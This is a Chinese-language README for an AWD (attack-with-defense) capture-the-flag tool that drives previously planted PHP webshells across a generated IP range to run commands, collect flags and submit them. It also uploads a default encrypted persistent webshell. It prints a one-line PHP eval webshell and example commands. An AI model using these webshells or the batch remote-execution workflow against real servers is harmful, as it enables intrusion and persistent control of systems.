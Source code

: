     AWD Predator Framework v1.0                   

              --code by AresX       
			  

* 在AWD攻防赛中通过给定的webshell批量获取提交flag

* 专为不会现场挖洞写脚本的菜鸡准备,各路表哥给自己种的马越多效果越好!

* 如果自身防护做的很好,那么基本上是没有什么卵用的,能做加固的大佬一定也不会需要这个给菜鸡准备的弱智工具

* 用py去实现菜刀是一件代码量很大的事情，懒得做也不会做(以后可能会做)，所以需要手动设置一句话的功能函数和方法

* 针对简单的单参数传递的一句话和特定的加密一句话


## webshell

**添加已知的webshell,仅支持php，GET和POST方法使用eval和exec函数的一句话木马**

### 添加webshell

命令`add`

使用方法: `add [shell path] [pwd] [type(eval/exec)] [method(get/post)]`

如一句话为`<?php @eval($_POST[‘cmd’]);?>` 路径为`x.x.x.x:8001://index/cmd.php`

一句话密码为`cmd` 功能函数为`eval` 方法为`POST`

example:`add x.x.x.x:8001://index/cmd.php cmd eval post`

命令执行后webshell的路径和密码会以字典的形式储存

**单独处理了一种特殊情况,使用md5加密的功能函数为eval,get方法的一句话**

在添加时,可添加带md5加密的密码的路径

如:`add :8003/x.php?pass=fuckyou x eval get` 



### 显示添加的webshell

命令`show`

将显示所有添加的webshell路径和密码

### 保存,读取,清空webshell
*保存已经添加的webshell路径和密码，方便临场修改代码*

保存:`save`
读取:`load`
清空:`clear` //清空不会清空已经储存的webshell,除非在清空后执行保存命令


## iplist

**根据输入生成指定段的ip列表**

### 生成列表

命令: `ip x.x.a-b.x`

可设定acb任意段的ip列表,使用'-'连接左右区间

### 添加指定ip

命令: `ip x.x.x.x`

执行命令后,`x.x.x.x`将被添加到ip列表中,会自动去除重复项和进行排序

### 查看已经生成的列表

命令: `showip`

显示生成的ip列表

### 清空ip列表

命令: `clearip`

## flag

**通过iplist和webshell获取flag，将获取到的flag提交到指定服务器**

### 获取flag
*遍历iplist中所有的地址尝试通过所有已经添加的webshell获取flag,在执行此命令前需设定iplist，否则报错*

命令:`getflag [command]`

example:`getflag curl www.baidu.com/flag.txt`

获取命令如果不需要修改只需完整输入一次，之后可直接执行`getflag`

### 提交flag


*提交flag 需设定提交flag的链接，以及cookie和data,使用"?"替换flag在data中所在的参数*

命令: `submit [url] [cookie] [data](use '?' replace the flag )`

example: `submit http:xxx.xxx.xx/xx/ JSESSIONID=A6F8;route=6cf03 pid=-1&pidName=&flag=?`
**去掉cookie中的空格,data中flag所在位置需用?代替！**

提交命令如果不需要修改只需完整输入一次，之后可直接执行`submit`

submit完成之后会有清空flag的选项(y/n)

### 清空flag

命令: `clearflag`

### 上传

命令: `upload <file>(default='auxi/shell.php')`

默认上传文件为`auxi/shell.php` 如需使用修改默认文件,默认文件为加密不死马

如需上传其他文件,将文件储存在`auxi/`目录下

执行`upload xxx`即可

如上传默认文件,直接执行`upload`






---


### 目录结构
```
###########
├── Readme.md               //帮助文档 
├── console.py              //启动
├── core                    // 核心模块
│   ├── shells.py           //写入，读取，保存webshell
│   ├── flag.py             // 获取，提交flag
│   ├── iplist.py           // 生成ip列表   
│—— auxi                    //辅助模块
|   |—— upload.py           //webshell上传功能
|   |—— shell.php           //默认上传文件
|   |—— webshell.txt        //一句话储存路径  
```